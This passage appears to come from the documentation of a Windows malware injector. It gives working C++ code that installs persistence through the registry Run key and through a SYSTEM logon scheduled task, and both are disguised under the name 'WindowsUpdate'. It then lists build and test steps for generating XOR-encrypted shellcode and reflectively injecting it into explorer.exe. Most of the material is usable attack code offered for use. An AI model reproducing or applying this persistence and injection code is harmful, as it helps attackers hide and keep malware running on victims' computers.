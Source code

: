 ## 🔄 Persistence Methods

### Registry Persistence

```cpp
bool InstallRegistryPersistence(const std::string& payloadPath) {
    HKEY hKey;
    LONG result = RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
    
    if (result == ERROR_SUCCESS) {
        result = RegSetValueExA(hKey, "WindowsUpdate", 0, REG_SZ,
            (const BYTE*)payloadPath.c_str(), payloadPath.length() + 1);
        RegCloseKey(hKey);
        return result == ERROR_SUCCESS;
    }
    return false;
}
```

### Scheduled Task Persistence

```cpp
bool InstallScheduledTaskPersistence(const std::string& payloadPath) {
    std::string command = "schtasks /create /tn \"WindowsUpdate\" /tr \"" + 
        payloadPath + "\" /sc onlogon /ru \"SYSTEM\" /f";
    
    STARTUPINFOA si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    
    return CreateProcessA(NULL, (LPSTR)command.c_str(), NULL, NULL, FALSE, 
        CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
}
```

## 🧪 Testing and Validation

### Test Environment Setup

1. **Windows 10/11 VM** with debugging tools
2. **Process Monitor** for API monitoring
3. **Process Hacker** for process analysis
4. **Wireshark** for network monitoring

### Validation Steps

```bash
# 1. Build injector
build_injector.bat

# 2. Generate test shellcode
python shellcode_generator.py --type calc --arch x64 --encryption xor --format c

# 3. Replace shellcode in source and rebuild
# 4. Test injection
injector_x64_Release.exe explorer.exe reflective

# 5. Verify execution
# - Check if calc.exe launches
# - Monitor process tree
# - Check for persistence
```
